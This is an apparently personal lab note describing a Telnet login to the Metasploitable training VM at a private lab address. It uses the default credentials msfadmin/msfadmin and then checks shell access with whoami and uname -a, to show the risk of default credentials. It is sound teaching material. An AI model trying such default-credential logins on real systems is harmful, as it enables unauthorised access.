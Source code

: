 [🏠 Home](../README.md) • [🧪 Labs](../labs/README.md) • [🗒️ Notes](README.md)

# 📡 Telnet Login with Default Credentials

## 🎯 Objective
Gain access to Metasploitable using default Telnet credentials.

## 🔧 Tools Used
- Telnet client (built into Kali)

## 🪜 Steps
1. Connect to the target:
    ```
    telnet 172.21.175.100
    ```

2. Try default creds:
    ```
    Username: msfadmin
    Password: msfadmin
    ```

3. Validate shell access:
    ```
    whoami
    uname -a
    ```

## 🧠 Notes
- No exploit required — this demonstrates the risk of weak/default credentials.
---
